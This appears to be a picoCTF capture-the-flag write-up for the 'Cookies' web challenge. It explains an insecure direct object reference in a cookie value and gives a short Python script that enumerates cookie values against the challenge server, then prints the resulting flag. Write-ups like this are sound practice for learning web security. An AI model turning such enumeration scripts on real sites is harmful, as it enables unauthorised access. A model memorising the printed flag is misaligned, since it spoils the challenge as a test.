



# Cookies

## Web

### Who doesn't love cookies? Try to figure out the best one.

The site takes you to this page:



When you look at the cookies you see there is a 'name' value set to 1



If you change that value and reload the page you can see there's a different cookie listed.



Changing it again, changes the cookie type again.  I suspect that when you put in the correct value you'll get the flag.
This is a type of Insecure Direct Object Reference (IDOR) vulnerability.  I could try different values manually but I don't know what the upper bound is and figuring it out could take as much time as writing a script to iterate through the cookie values.

For this Python script, I'll use the `requests` library to interact with the web portion and the `re` library to do a regex search.
Because the attempts so far have all had "Not very special" in them I'll print on a failed match.

```python3
#!/usr/bin/env python3

import requests
import re

site = "http://mercury.picoctf.net:21485/check"
loops = 30
pattern = r"Not very special"

for i in range(loops):
    cookies = {'name': str(i)}
    r = requests.get(site, cookies=cookies)
    match = re.search(pattern, r.text)
    if not match:
        print(r.text)
        break

```

Running the script we get an output (most redacted for brevity):

```html

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
        </div>

```

**picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}**
